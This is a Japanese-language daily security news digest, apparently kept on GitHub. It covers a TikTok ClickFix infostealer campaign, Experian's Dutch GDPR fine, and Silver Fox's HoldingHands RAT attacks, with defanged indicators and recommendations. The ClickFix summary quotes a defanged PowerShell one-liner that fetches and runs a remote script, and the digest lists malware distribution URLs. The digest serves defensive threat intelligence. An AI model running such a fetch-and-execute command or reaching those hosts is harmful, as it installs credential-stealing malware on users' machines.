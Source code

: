 # Daily Security Info

### Tools
N/A

### malware campaign
N/A

### security report
N/A

### cybercrime topics
N/A

### 日々のニュース要約

#### TikTok動画、ClickFix手口でインフォスティーラー拡散を継続
https://www.bleepingcomputer.com/news/security/tiktok-videos-continue-to-push-infostealers-in-clickfix-attacks/

- 要約
    - WindowsやAdobe等の無料アクティベーション指南を装うTikTok動画で、情報窃取マルウェア配布が継続中と報告。
    - 動画は管理者権限でのPowerShell実行を誘導し、短い1行コマンドを実行させる「ClickFix」手口を悪用。
    - 例として iex (irm slmgr[.]win/photoshop) を提示し、slmgr[.]winから次段のPowerShellスクリプトを取得させる。
    - スクリプトはfile-epq[.]pages[.]devからAura Stealer等の実行ファイルを取得し、追加ペイロードsource.exeも展開。
    - 実行してしまった利用者は資格情報流出を前提に、利用サイトすべてのパスワードを直ちにリセットするよう警告。
- IOCの列挙
    - slmgr[.]win,FQDN名,知られていない,PowerShellコマンドが接続して次段スクリプトを取得する配布先,NA(IP以外)
    - hxxps://file-epq[.]pages[.]dev/updater[.]exe,URL,知られていない,Cloudflare Pages上でAura Stealerの実行ファイルを配布,NA(IP以外)
- 推奨事項
    - ウェブ上の文字列をOSのダイアログ/シェル（PowerShellやエクスプローラーのアドレス欄等）に貼り付けて実行しない。
    - 当該手順を実行した可能性がある場合は、全サイトのパスワードを直ちにリセットする。
- その他
    - なし
- ChatGPTの推奨事項
    - 直ちにプロキシ/DNSログでslmgr[.]winおよびfile-epq[.]pages[.]devへの通信を探索し、ヒット端末を隔離して認証情報をリセット。

#### Experian、個人データの大量収集で320万ドルの罰金
https://www.bleepingcomputer.com/news/legal/experian-fined-32-million-for-mass-collecting-personal-data/

- 要約
    - オランダ個人情報保護機関(AP)がExperian NetherlandsにGDPR違反で270万ユーロ（約320万ドル）の罰金を科した。
    - 商業登記簿や通信・エネルギー企業など公私の複数情報源から個人データを収集し、本人通知や同意取得を怠ったと認定。
    - 収集データは信用スコアとして事業者へ提供され金利や前払金に影響、本人は情報の正確性を事前に確認できなかった。
    - APは2025年1月1日まで個人向け信用評価の提供が続いたと指摘し、収集の必要性・正当化も不十分と結論付けた。
    - Experianは決定を不服申立てせず、年内に全データベース削除とオランダでの業務停止を約束した。
- IOCの列挙
    - IOC情報なし
- 推奨事項
    - 推奨事項なし
- その他
    - なし
- ChatGPTの推奨事項
    - 直ちに第三者由来データの取得元・同意・情報提供の証跡を棚卸し、不要データ削除と処理根拠の確認を実施。

#### Silver Fox、HoldingHands RATを用いてWinos 4.0攻撃を日本・マレーシアへ拡大
https://thehackernews.com/2025/10/silver-fox-expands-winos-40-attacks-to.html

- 要約
    - 中国系サイバー犯罪グループSilver Foxが、Winos 4.0とHoldingHands RATを使い、日本とマレーシアへの攻撃を拡大。
    - 偽の財務省文書などを装うPDFから悪性リンクへ誘導し、最終段でHoldingHandsを展開する多段感染を用いる。
    - 台湾税制改正草案を騙るPDFは日本語ページtwsww[.]xin/download[.]htmlへ誘導し、ZIPを配布して感染させる。
    - マルウェアはDLLサイドロードでsw.dat等を実行し、監視回避・権限昇格・C2更新機能などを備え情報窃取を実施。
    - 中国企業狙いのOperation Silk Lureも確認され、.LNK＋PowerShellでWinos 4.0を配布、C2は米国ホストが観測。
- IOCの列挙
    - twsww[.]xin/download[.]html,URL,知られていない,税制草案を装うPDFから誘導されHoldingHandsを配布するダウンロード先,NA(IP以外)
    - twsww[.]xin,FQDN名,知られていない,上記ダウンロードページをホストするドメイン,NA(IP以外)
- 推奨事項
    - 推奨事項なし
- その他
    - 攻撃者はSilver Fox（別名SwimSnake/UTG-Q-1000/Void Arachne等）で中国系。動機は地域の情報収集の可能性が高いと記載。
- ChatGPTの推奨事項
    - 直ちにDNS/プロキシログでtwsww[.]xinへのアクセス有無を確認し、ヒット端末を隔離して完全スキャンと証跡保全を実施。

### 日本のインシデント事例
N/A

### その他のメモ
N/A